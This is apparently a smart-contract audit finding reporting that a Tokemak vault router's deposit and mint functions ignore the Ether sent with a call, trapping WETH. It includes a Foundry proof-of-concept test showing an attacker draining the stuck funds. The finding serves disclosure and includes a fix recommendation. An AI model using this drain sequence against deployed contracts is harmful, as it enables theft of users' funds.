 Vast Teal Bat

high

# LMPVaultRouterBase.mint/LMPVaultRouterBase.deposit has incorrect handling of Ether transfers
## Summary

LMPVaultRouterBase.mint/LMPVaultRouterBase.deposit can cause user funds to become trapped due to incorrect handling of Ether transfers.

## Vulnerability Detail

The vulnerability is present in the `deposit` and `mint` functions within the `LMPVaultRouterBase` contract. These functions are expected to handle the transfer of Ether by converting it into Wrapped Ether (WETH) and subsequently depositing the swapped WETH into the LMPVault. However, the vault solely deposit the WETH amount that users specify in the function argument without regarding the value of Ether that user sends. This leads to a situation where user funds are stuck in the LMPVaultRouterBase. It also opens up various potential attack vectors, enabling malicious actors to drain trapped WETH at a later time.

The following code snippet demonstrates the vulnerability in the `deposit` function:

```solidity
    function test_deposit_EthNotRecorded() public {
        // Ensure initial balances are as expected
        assertEq(lmpVault.balanceOf(address(this)), 0);
        assertEq(baseAsset.balanceOf(address(lmpVaultRouter)), 0);

        // Approve baseAsset for deposit
        baseAsset.approve(address(lmpVaultRouter), 1e18);

        // Deposit 2 Ether and 1 WETH to the LMPVaultRouter
        uint256 sharesReceived = lmpVaultRouter.deposit{value: 2 ether}(
            lmpVault,
            address(this),
            1e18,
            1
        );

        // Check balances after deposit
        assertEq(lmpVault.balanceOf(address(this)), 1e18); // should be 3e18 if 2 ETH sent were deposited
        assertEq(baseAsset.balanceOf(address(lmpVaultRouter)), 2 ether); // 2 WETH are stuck in lmpVaultRouter (after being swapped from ETH)

        // Approve LMPVault for redemption
        lmpVault.approve(
            address(lmpVaultRouter),
            lmpVault.balanceOf(address(this))
        );

        // Redeem deposited shares
        uint256 amountOut = lmpVaultRouter.redeemMax(
            lmpVault,
            address(this),
            1
        );

        // Check balances after redemption
        assertEq(amountOut, 1e18); // The user loses 2 Ether that were deposited
        assertEq(baseAsset.balanceOf(address(lmpVaultRouter)), 2 ether); // 2 WETH are still stuck in lmpVaultRouter
        
        /*//////////////////////////////////////////////////////////////
                     Here is one possible attack vector
        //////////////////////////////////////////////////////////////*/
        
        address attacker = vm.addr(11);
        deal(address(baseAsset), attacker, 10);

        vm.startPrank(attacker);
        baseAsset.approve(address(lmpVaultRouter), 10);
        lmpVaultRouter.deposit(lmpVault, attacker, 10, 1);

        lmpVault.approve(address(lmpVaultRouter), lmpVault.balanceOf(attacker));
        assertEq(attacker.balance, 0);
        lmpVaultRouter.redeem(lmpVault, attacker, 10, 10, true);
        assertEq(attacker.balance, 2e18 + 10); // The attacker successfully drains all the stuck WETH
    }
```

## Impact

Lead to trapped user funds and potential vulnerabilities that could be exploited to drain the stuck WETH.

## Code Snippet

https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L23-L41
https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L44-L57


## Tool used

Manual Review

## Recommendation

Consider both the amount of WETH and the associated Ether value. When depositing WETH into the LMPVault, ensure that the correct Ether value is reflected.